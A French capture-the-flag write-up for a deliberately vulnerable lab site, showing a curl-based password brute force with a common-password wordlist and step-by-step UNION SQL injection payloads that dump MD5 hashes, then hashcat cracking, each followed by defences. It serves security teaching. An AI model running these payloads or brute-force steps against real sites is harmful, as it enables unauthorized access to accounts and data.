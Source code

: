 # Procédure BRUTE FORCE FLAG

> Ce flag peut être obtenu d'au moins 2 façons!

## Procédure BRUTE FORCE

Cette procédure s'exécute sur l'url : `ip_darkly/?page=signin`.

L'objectif est de déterminer la résistance de l'application contre la **force
brute** de deviner les mots de passe.

1. Tous les champs du formulaire `<form>` de la page sont à prendre en compte,
   car ils seront requis pour la validation de la requête par le
   serveur.  
   En effet, c'est au backend de l'application, de se charger des
   vérifications d'accès aux données stockées, en son sein.   
   Le formulaire de connexion attend les inputs suivants:
   - champ `username`,
   - champ `password`,
   - champ `Submit`.  
   Here you are a resource that can help you understand what happens when we use `curl` for
   sending forms requests: [CURL HTTPSCRIPTING](https://curl.se/docs/httpscripting.html#).
2. En général, on utilise des dictionnaires éprouvés de logins et de mots de passe, afin de mener une attaque par **brute force**.  
   Une attaque de mots de passe par **brute force** consiste à tester le plus de
   paires `login/password` jusqu'à trouver celle qui dévérouille l'accès.  
   Nous utiliserons ici, afin que le test ne soit pas interminable, 2 courtes
   listes pré-établies de 6 usernames et de 20 mots de passe.   
   | logins | passwords |
   |--------|:----------|
   | root   | 123456    |
   | admin   | password    |
   | test   | 12345678    |
   | guest   | 1234    |
   | info   | pussy    |
   | <vide>   | 12345    |
   |        | dragon    |
   |        | qwerty    |
   |        | 696969    |
   |        | mustang    |
   |        | letmein    |
   |        | baseball    |
   |        | master    |
   |        | michael    |
   |        | football    |
   |        | shadow    |
   |        | monkey    |
   |        | abc123    |
   |        | pass    |
   |        | fuckme    |   
   L'inspiration provient d'ici:
   - [SECLISTS GITHUB](https://github.com/danielmiessler/SecLists) 
   - [WORST PASSWORDS](https://github.com/danielmiessler/SecLists/blob/master/Passwords/500-worst-passwords.txt)   
   - [COMMON USERNAMES](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)   
3. Pour chacune des paires login/password, on émettra la requête
   `curl` suivante:  
   ```bash
   curl -sG --data-urlencode "username=<USERNAME>" --data-urlencode "password=<PASSWORD>" --data-urlencode "Submit=Submit" "ip_darkly/?page=signin"
   ```
   On teste également avec un username vide.
4. Toutes les requêtes avec le mot de passe `shadow` retourneront le
   flag.  
   Le test avec l'username vide nous renseigne sur un élément
   très important:   
   **l'username n'est pas pris en compte pour
   la gestion de la connexion**.  
   Sans ce test, on aurait vite pu en
   déduire que tous les couples `login/passwd` retournant le flag
   confirmaient l'existance du login en question.

### Comment s'en prémunir

- Vérifier la conformité des informations transmises par une
  requête! Ici seule la saisie du mot de passe débloque l'accès au flag.
  C'est une faille de sécurité très grave de ne pas avoir
  fait les vérifications rudimentaires de base.  
  Avant de s'occuper de
  l'echappement et l'encodage des caractères HTML reçus en entrée, il
  faut déja s'assurer qu'on reçoit bien quelque chose pour
  l'username ET que le combo `username/passwd` serve, à minima, à
  autoriser la connexion.
- Chacun des comptes présents par défaut (comme `root`,
  `admin`, `mysql`...) doivent être désactivés.  
  Un bon
  administrateur système créera les comptes utilisateurs
  nécessaires et suffisants,
  avec les rôles et droits appropriés, afin d'assurer la sécurité
  minimale l'application.
- Le mot de passe en relation avec le compte par défaut doit également être
  changé dès que l'utilisateur légitime entre en sa possession, puis de façon
  régulière,  
  être le plus long possible (8 caractères est un minimum, avec 13, on donne du réellement mal à un attaquant pour le décoder).  
  *`hashcat` a besoin de 580 ans environ pour brute force, sans dictionnaire, un mot de passe de 8 caractères hashé en md5.*  
  Idéalement ce sera une séquence aléatoire de caractères
  alphanumériques et spéciaux.  
  Le mot de passe sera stocké après avoir été hashé.  
  **On ne stocke
  jamais de telles informations en clair**.
- Définir un nombre maximal de tentatives de connexion successives, ou augmenter
  le temps d'attente entre plusieurs tentatives infructueuses.  
  Un petit
  temps d'attente basé sur la suite de Fibonnacci devrait dissuader
  plus d'un attaquant **brute force**.
- Utiliser HTTPS afin de crypter les données transitant sur le réseau.

L'impact d'une attaque **brute force** se verra réduite si ces
quelques règles sont appliquées.

On se tournera sans hésiter vers d'autres techniques
d'authentification, comme les **JWT** ou la **2FA**, afin de simplifier, pour
l'utilisateur la gestion de ses connexions, mais surtout sécuriser
efficacement l'accès au serveur web.

### Pour plus d'informations:  

[WSTG-ATHN-07](https://github.com/clallier94/wstg-translation-fr/blob/0d20f06e3195a81fd07c9294207dd80ba7710e55/4-Web_Application_Security_Testing/04-Authentication_Testing/07-Testing_for_Weak_Password_Policy.md)   
[WSTG-ATHN-03](https://github.com/clallier94/wstg-translation-fr/blob/0d20f06e3195a81fd07c9294207dd80ba7710e55/4-Web_Application_Security_Testing/04-Authentication_Testing/03-Testing_for_Weak_Lock_Out_Mechanism.md)   
[OWASP BRUTE FORCE](https://owasp.org/www-community/attacks/Brute_force_attack)   
[WSTG-CRYP-03](https://github.com/clallier94/wstg-translation-fr/blob/0d20f06e3195a81fd07c9294207dd80ba7710e55/4-Web_Application_Security_Testing/09-Testing_for_Weak_Cryptography/03-Testing_for_Sensitive_Information_Sent_via_Unencrypted_Channels.md)    

## 2e façon d'attraper le flag

### Procédure OBTAINING ROOT PASSWORD WITH SQL INJECTION

Il était possible aussi de récupérer le flag par injection SQL.  
La table
`Member_Brute_Force.db_default`, récupérée lors des injections SQL, nous incite à comprendre qu'une attaque **brute
force** est attendue à cette étape.   
Par conséquent, nous présenterons et ferons la démonstration
de l'attaque présentée au 1er point lors de la défense.   
Cela ne nous empêche pas de présenter également celle-là.

1. Repérer les points d'entrée vulnerables:   
    Formulaire recherche de membre [Formulaire](http://ip_darkly?page=member) `http://ip_darkly?page=member`
2. Récupérer l'empreinte du SGBD:   
    *Détection par erreur + injection sql version() = Darkly utilise **MariaDB** comme SGBD*
    ```SQL
    ip_darkly/index.php?page=member&Submit=Submit&id=1 UNION SELECT 1, version() limit 1,1
    ```
3. Récupérer le nombres de colonnes max auquel l'injection SQL devra se référer:
   (n est le nombre à tester)
    ```SQL
    ip_darkly/index.php?page=member&Submit=Submit&id=1 ORDER BY n
    ```
4. Récupérer le nom des tables accessibles à l'utilisateur
    ```SQL
    ip_darkly/index.php?page=member&Submit=Submit&id=1 and 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables
    ```
5. Récupérer le nom des colonnes qui nous interesse
    ```SQL
    ip_darkly/index.php?page=member&Submit=Submit&id=1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
    ```
6. Injecter une requete SQL pour recuperer les datas ou sont stockés les
   passwords
    ```SQL
    ip_darkly/index.php?page=member&Submit=Submit&id=1 AND 1=2 UNION SELECT username, password FROM Member_Brute_Force.db_default
    ```
7. Les passwords sont hashés, brute force md5
    ```bash
    hashcat -a 3 -m 0 "${hash_pass}" | grep -E "${hash_pass}" | awk -F: '{print $2}'
    ```
8. Emettre la requete de connexion
    ```bash
    ip_darkly/index.php?page=signin&username=${usernames[$i]}&Login=Login&password=${decrypted_passwords[$i]}
    ```

Un flag, le même, est retourné pour les 2 comptes pouvant se log (admin et root)

#### Comment s'en prémunir

- Parser les inputs utilisateurs et échapper tout caractère spécial
- Répondre aux erreurs de SGBD avec des erreurs personnalisées en laissant peu
  d'indication sur l'erreur en cours afin de ne pas aiguiller un attaquant sur
  ce qui peut être vulnérable
- Utiliser les `parametrized query` offertes par les différents frameworks/API de
  développement (PDO...). NEVER TRUST INPUT USER. Ne jamais passer telle quelle une
  valeur récupérée d'une saisie utilisateur à une requête SQL.
- Changer régulièrement ses mots de passe, avoir des mots de passe de 8
  caractères minimum. Les crypter avant
  de les stocker en base de données. Si le hash est reversible (comme le md5),
  utiliser un autre algorithme de chiffrement.

#### Pour plus d'informations:  
[WSTG-INPV-05](https://github.com/clallier94/wstg-translation-fr/blob/main/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection.md)   

## Flag
```text
3b4e8a30ecbfde518f50f2bda1912b40338ecd71821faeb1e9cdf44cefff95f5
```
